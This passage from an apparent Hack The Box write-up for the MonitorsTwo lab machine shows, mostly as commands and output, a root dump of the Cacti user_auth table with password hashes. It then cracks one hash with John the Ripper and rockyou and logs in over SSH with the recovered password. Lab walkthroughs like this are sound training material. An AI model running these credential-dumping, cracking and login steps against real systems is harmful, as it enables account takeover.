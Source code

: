 Looking for some kind of user data, we find the table `user_auth`:
```
mysql --host=db --user=root --password=root cacti -e 'select * from user_auth'
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview       graph_settings  login_opts      policy_graphs   policy_trees    policy_hosts    policy_graph_templates  enabled lastchange      lastlogin password_history locked  failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb           on      on      onon       on      2       1       1       1       1       on      -1      -1      -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1 -1       -1      -1              0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      onon       on      1       1       1       1       1       on      -1      -1              on      0       0       2135691668

mysql --host=db --user=root --password=root cacti -e 'select username, password from user_auth'
username        password
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
guest   43e9a4ab75570f5b
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

And we found an interesting user called `marcus` with a password hash.

### Cracking the hash
Trying to crack the hash with the word list rockyou was successful pretty quickly:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ cat hashes
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes               
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:09 0.00% (ETA: 2023-09-21 16:58) 0g/s 84.61p/s 84.61c/s 84.61C/s caitlin..dancing
0g 0:00:00:17 0.01% (ETA: 2023-09-21 17:59) 0g/s 84.82p/s 84.82c/s 84.82C/s gonzalez..newlife
funkymonkey      (?)     
1g 0:00:01:39 DONE (2023-09-19 09:26) 0.01000g/s 85.39p/s 85.39c/s 85.39C/s lilpimp..coucou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$           
```

## SSH access
Let's try to access the system via ssh with the credentials we found:
```
┌──(kali㉿kali)-[~]
└─$ ssh marcus@$IP                                                                                                                                   255 ⨯
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)
```
